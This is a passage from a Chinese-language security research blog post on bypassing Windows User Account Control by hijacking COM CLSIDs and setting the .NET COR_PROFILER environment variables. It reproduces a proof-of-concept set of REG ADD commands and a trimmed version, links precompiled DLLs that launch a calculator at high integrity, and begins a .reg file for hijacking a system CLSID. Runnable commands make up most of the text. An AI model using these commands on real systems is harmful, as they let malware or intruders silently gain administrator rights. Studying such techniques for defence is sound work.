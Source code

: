 clem@clavoillotte的POC:

```
REG ADD "HKCU\Software\Classes\CLSID\{FFFFFFFF-FFFF-FFFF-FFFF-FFFFFFFFFFFF}\InprocServer32" /ve /t REG_EXPAND_SZ /d "C:\Temp\test.dll" /f
REG ADD "HKCU\Environment" /v "COR_PROFILER" /t REG_SZ /d "{FFFFFFFF-FFFF-FFFF-FFFF-FFFFFFFFFFFF}" /f
REG ADD "HKCU\Environment" /v "COR_ENABLE_PROFILING" /t REG_SZ /d "1" /f
REG ADD "HKCU\Environment" /v "COR_PROFILER_PATH" /t REG_SZ /d "C:\Temp\test.dll" /f
mmc gpedit.msc
```

个人认为不需要指定环境变量COR_PROFILER_PATH，经过精简后的POC如下：

```
REG ADD "HKCU\Software\Classes\CLSID\{FFFFFFFF-FFFF-FFFF-FFFF-FFFFFFFFFFFF}\InprocServer32" /ve /t REG_EXPAND_SZ /d "C:\test\calc.dll" /f
REG ADD "HKCU\Environment" /v "COR_PROFILER" /t REG_SZ /d "{FFFFFFFF-FFFF-FFFF-FFFF-FFFFFFFFFFFF}" /f
REG ADD "HKCU\Environment" /v "COR_ENABLE_PROFILING" /t REG_SZ /d "1" /f
mmc gpedit.msc
```

测试dll依旧是通过c++编写的dll标准模板，下载地址：

https://raw.githubusercontent.com/3gstudent/test/master/calc.dll

会正常启动gpedit.msc，同时弹出计算器，权限为high

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-9-19/3-1.png)

如果想只启动计算器，不执行gpedit.msc，在启动代码`WinExec("calc.exe",SW_SHOWNORMAL);`后添加`ExitProcess(0);`就好

编译好的dll已上传，下载地址如下：

https://raw.githubusercontent.com/3gstudent/test/master/calcexit.dll

测试如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-9-19/3-2.png)

计算器权限为high，成功绕过UAC


## 0x03 劫持系统CLSID绕过UAC的方法
---

clem@clavoillotte在博客中分享了如何劫持系统CLSID实现UAC绕过，所以接下来对其逐个测试，并标记需要注意的地方


### 1、{B29D466A-857D-35BA-8712-A758861BFEA1}

注册表文件如下：

```
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Classes\CLSID\{B29D466A-857D-35BA-8712-A758861BFEA1}]
@="Microsoft.GroupPolicy.AdmTmplEditor.GPMAdmTmplEditorManager"

[HKEY_CURRENT_USER\Software\Classes\CLSID\{B29D466A-857D-35BA-8712-A758861BFEA1}\Implemented Categories]

[HKEY_CURRENT_USER\Software\Classes\CLSID\{B29D466A-857D-35BA-8712-A758861BFEA1}\Implemented Categories\{62C8FE65-4EBB-45E7-B440-6E39B2CDBF29}]

[HKEY_CURRENT_USER\Software\Classes\CLSID\{B29D466A-857D-35BA-8712-A758861BFEA1}\InprocServer32]
@="C:\\Windows\\System32\\mscoree.dll"
"Assembly"="TestDotNet, Version=0.0.0.0, Culture=neutral"
```